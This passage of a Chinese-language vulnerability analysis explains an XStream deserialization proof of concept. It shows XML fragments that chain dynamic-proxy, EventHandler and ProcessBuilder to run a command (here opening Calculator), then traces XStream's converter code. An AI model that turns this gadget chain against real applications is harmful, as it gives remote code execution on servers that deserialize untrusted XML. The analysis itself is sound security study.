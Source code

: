 ```
</dynamic-proxy>
```
内层，EventHandler构造函数赋值了该类的四个属性，后两个参数值传入的null，前两个按照target和action标签生成
```
public EventHandler(Object target, String action, String eventPropertyName, String listenerMethodName) {
  this.target = target;
  this.action = action;      
  this.eventPropertyName = eventPropertyName;
  this.listenerMethodName = listenerMethodName;
}

<target class="java.lang.ProcessBuilder">
  ...
</target>
<action>start</action>
```
最内层，传入ProcessBuilder，赋值的是该类的command属性。所以对应xml标签是command
```
public ProcessBuilder(String... command) {
    this.command = new ArrayList<>(command.length);
    for (String arg : command)
        this.command.add(arg);
}

<command>
    <string>open</string>
    <string>/System/Applications/Calculator.app</string>
</command>
```

* #### xml解析过程
xml的解析也就是反序列化过程，用fromXML()方法作为入口。重点在于标签的解析。（1）标签与类、类属性之间的转换 （2）标签属性与类属性值的转换。
反序列化过程最核心的两步: 
```
# (1)
Class type = HierarchicalStreams.readClassType(this.reader, this.mapper);  // 获取标签; realClass查找标签对应的接口和类;  "interface java.util.SortedSet"
Object result = this.convertAnother((Object)null, type);  // 根据type接口查/类找其实现类; 然后根据实现类找到对应的Converter; 
```
具体看一下`converAnother()`方法，实际上就是根据标签的类型找到其实现类，进而找到处理该类的转换器，进行具体反序列化过程
```
# (2)
public Object convertAnother(Object parent, Class type, Converter converter) {
    type = this.mapper.defaultImplementationOf(type);   // type对应的实现类 "class java.util.TreeSet"
    if (converter == null) {
        converter = this.converterLookup.lookupConverterForType(type);  //转换器 TreeSetConverter
    } ...
    return this.convert(parent, type, converter);  // 进入到转换器的unmarshal方法，如TreeSetConverter.unmarshal
}
```
对于这个POC来说，`TreeSetConverter.unmarshal`方法中有如下一行代码，表明TreeSetConverter实际用了treeMapConverter对comparator进行解析。所以另一种poc是用`tree-map`标签替换了`sorted-set`标签
```
this.treeMapConverter.populateTreeMap(reader, context, treeMap, unmarshalledComparator);  // -> this.putCurrentEntryIntoMap(reader, context, result, sortedMap);
```
这一行的实际调用代码如下
```
# (3)
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
    Object key = this.readItem(reader, context, map); // 这一步和(1)中的代码一样，对子标签开始上述反序列化过程，获取标签对应的class类型。上述poc中的子标签是dynamic-proxy，对应转换器就是DynamicProxyConverter
```